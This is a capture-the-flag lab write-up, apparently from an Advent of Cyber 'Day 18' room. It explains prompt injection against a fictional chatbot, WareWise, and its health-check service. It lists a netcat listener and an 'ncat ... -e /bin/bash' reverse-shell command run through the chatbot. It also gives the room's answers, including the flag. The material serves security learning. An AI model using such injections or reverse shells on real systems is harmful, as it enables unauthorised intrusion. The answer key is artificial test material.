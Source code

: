 # Day 18[Prompt Injection]: I could use a little AI interaction!

## Story :
The IT department of Wareville has integrated WareWise, the intelligent assistant chatbot with the HealthChecker (the service that tracks health and uptime of the wareville's systems). Our task is to understand how they work and find any vulnerabilities.

## Learning Objectives : 
- Gain a fundamental understanding of how AI chatbots work
- Learn some vulnerabilities faced by AI chatbots
- Practice a prompt injection attack on WareWise, Wareville's AI-powered assistant

## Abbreviations and Applications :
- [AI](https://www.sas.com/en_in/insights/analytics/what-is-artificial-intelligence.html) : Arificial intelligence.

## Process Key Steps and Points :
- AI is as good as its training data.
- Some possible **exploits**:
  - **Data Poisoning** : Introducing false or malicious data into the model.
  - **Sensitive Data Enclosure** : If not properly sanitised, AI models could be trained to provide sensitive and/or proprietary information.
  - **Prompt Injection** : Prompt injection is one of the most commonly used attacks against LLMs and AI chatbots. In this attack, a crafted input is provided to the LLM that overrides its original instructions to get output that is not intended initially, similar to control flow hijack attacks against traditional systems.
- Process and setting for Prompt Injection:
  Inputs to an AI model are twofold, one by the developer known as __system prompt__ and the other by the user.
  Technically and Ideally, system prompt must not be changed by the user.
  But when that restrictions arent in place, a clever prompt could overrule the system prompt and the user could gain access to info he must not have.

## Tools and Commands Used :
- `tcpdump -ni ens5 icmp` : To listen for the ping sent from the WareWise server by us.
- `ping -c 4 connection_IP` : ping connection_IP 4 times.
- `nc -lvnp port_number` : netcat
    | Flag | Description |
    | --- | --- |
    | l | listen mode |
    | n | suppress name/port resolutions |
    | p | specify port number |
    | v | verbose |
- `ncat connection_IP port_number -e /bin/bash` : to connect to our connection_IP via reverse shell.

## Questions, Hints and Answers :
1. What is the technical term for a set of rules and instructions given to a chatbot?
   - Hint : Given in the room itself
   - Ans : `system prompt`
2. What query should we use if we wanted to get the "status" of the health service from the in-house API?
   - Hint : Also in the room
   - Ans : `Use the health service with the query: status`
3. After achieving a reverse shell, look around for a flag.txt. What is the value?
   - Hint : Redo the process but now with port `4444` on both `nc` command and prompt to the chatbot. 
   - ![flag_prompt](/Screenshots/D18Q1.png)
   - Ans : `THM{WareW1se_Br3ach3d}`